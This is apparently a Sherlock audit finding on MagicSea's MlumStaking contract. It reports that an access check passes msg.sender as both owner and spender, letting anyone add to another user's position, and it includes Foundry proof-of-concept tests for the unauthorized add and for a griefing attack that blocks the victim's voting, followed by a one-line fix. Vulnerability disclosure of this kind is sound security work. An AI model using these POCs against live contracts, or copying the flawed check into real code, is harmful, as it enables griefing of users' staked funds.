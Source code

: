 Sleepy Navy Ant

Medium

# Error in access control check allows users to add to positions of other users

## Summary

The protocol tries to allow only owners or approved users of a position to add to the position . but due to a wrong check in access control modifier any user can add to another users position.

## Vulnerability Detail

the function `MlumStaking::addToPosition` allows users to add to existing positions:

```solidity
function addToPosition(uint256 tokenId, uint256 amountToAdd) external override nonReentrant {
=>    _requireOnlyOperatorOrOwnerOf(tokenId);
```

as we can see there is a check that only the operator or ownerOf the token should add to the position:

```solidity
    function _requireOnlyOperatorOrOwnerOf(uint256 tokenId) internal view {
        require(
            ERC721Upgradeable._isAuthorized(msg.sender, msg.sender, tokenId),
            "FORBIDDEN"
        );
    }
```

it is done by the `_isAuthorized` ERC721 function:

```solidity
 function _isAuthorized(address owner, address spender, uint256 tokenId) internal view virtual returns (bool) {
        return
            spender != address(0) &&
            (owner == spender || isApprovedForAll(owner, spender) || _getApproved(tokenId) == spender);
    }
```

and as we can see it's checking if the owner is the spender, but in `_requireOnlyOperatorOrOwnerOf` we are passing for both the owner and spender `msg.sender`, basically the check will always pass.

this makes it so that anybody can add to positions of other users.

this can be maliciously used to add to users lock time or to update their `lockDuration` so that they are unable to vote (see POC below).

## Proof Of Concept

here is a Foundry POC to show that anybody can add to other users positions:

- run : `forge test --match-test testAnybodyCanAddPosition -vv`

```solidity
function testAnybodyCanAddPosition() public{
        address attacker = address(0x1337);
        
        _stakingToken.mint(ALICE, 2 ether);
        _stakingToken.mint(attacker, 1);

        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 1 days);

        //Alice owns the position with id 1
        assertEq(ERC721(address(_pool)).ownerOf(1), ALICE);

        vm.stopPrank();

        //attacker can add to the position even when he is not approved nor the owner
        vm.startPrank(attacker);
        _stakingToken.approve(address(_pool), 1);
        _pool.addToPosition(1, 1);
        vm.stopPrank();

    }
```

here is POC of an attacker griefing alice's position to not be able to vote.
she has two positions with exactly the same params, the attacker griefs one of them , and she isn't able to vote with it.

```solidity
function testGriefVoting() public{
        address attacker = address(0x1337);

        _stakingToken.mint(ALICE, 3 ether);
        _stakingToken.mint(attacker, 1);
        
        {
        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1000 ether);
        _pool.createPosition(1 ether, 2 weeks);
        _pool.createPosition(1 ether, 2 weeks);
        vm.stopPrank();
        }

        vm.warp(block.timestamp + 2 weeks);

        vm.prank(DEV);
        _voter.startNewVotingPeriod();

        //attacker griefs alice by adding to her position and updating her lock time
        {
        vm.startPrank(attacker);
        _stakingToken.approve(address(_pool), 1);
        _pool.addToPosition(1, 1);
        vm.stopPrank();
        }

        //alice now tries to vote with both positons
        {
        vm.startPrank(ALICE);

        console.log("votes before: ", _voter.getVotesPerPeriod(1, _getDummyPools()[0]));

        //alice cant vote with the position that was griefed
        vm.expectRevert(IVoter.IVoter__InsufficientLockTime.selector);
        _voter.vote(1, _getDummyPools(), _getDeltaAmounts());

        //but alice can vote just fine with the position that wasn't griefied
        _voter.vote(2, _getDummyPools(), _getDeltaAmounts());

        console.log("votes after: ", _voter.getVotesPerPeriod(1, _getDummyPools()[0]));

        vm.stopPrank();
        }
    }
```
## Impact

anybody can add to any position owned by other users, which can open up a lot of attack vectors, one of which is griefing the position to not allow it to vote or adding to it's lock time.

## Code Snippet

https://github.com/sherlock-audit/2024-06-magicsea/tree/main/magicsea-staking/src/MlumStaking.sol#L397-L428

https://github.com/sherlock-audit/2024-06-magicsea/tree/main/magicsea-staking/src/MlumStaking.sol#L140-L143

## Recommendation

## Tool used

Manual Review

## Recommendation


```diff
    function _requireOnlyOperatorOrOwnerOf(uint256 tokenId) internal view {
        require(
-           ERC721Upgradeable._isAuthorized(msg.sender, msg.sender, tokenId),
+           ERC721Upgradeable._isAuthorized(_ownerOf(tokenId), msg.sender, tokenId),
            "FORBIDDEN"
        );
    }
```
